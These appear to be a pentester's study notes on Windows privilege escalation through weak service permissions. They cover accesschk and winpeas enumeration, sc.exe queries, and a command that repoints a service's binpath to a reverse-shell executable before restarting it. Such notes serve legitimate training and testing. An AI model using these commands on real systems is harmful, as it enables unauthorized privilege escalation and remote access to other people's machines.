 UAC rights show if the user can read or write files.

Use accesscheck from sysinternals

`accesschk.exe /accepteula`

Check access

`.\accesschk.exe /accepteula -uwcqv user c:\`


### Insecure Service Properties

Dangerous permissions: SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS

Enumerate service with winpeas

`winpeas.exe quiet servicesinfo`


Configuration query
`sc.exe qc <name>`

Status query
`sc.exe query <name>`

Check rights of the user on service

```powershell
# use accesschk

PS C:\Temp> .\accesschk.exe /accepteula -ucqv regsvc

R  regsvc
	SERVICE_QUERY_STATUS
	SERVICE_QUERY_CONFIG # ask the config
	SERVICE_INTERROGATE
	SERVICE_ENUMERATE_DEPENDENTS
	SERVICE_START # we can start
	SERVICE_STOP # we can stop
	READ_CONTROL

```

Modify options
`sc.exe config <name> <options>= <value>`
i.e. `sc config daclsvc binpath= "\"c:\PrivEsc\rev.exe\""`

Official list of parameters: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/sc-config

Start/Stop Service
`net start/stop <name>`
i.e. 'net start daclsvc' 



RABBIT HOLE: Make sure you can restart the service or machine to make changes active!

`accesschk.exe /accepteula -ucqv servicename`
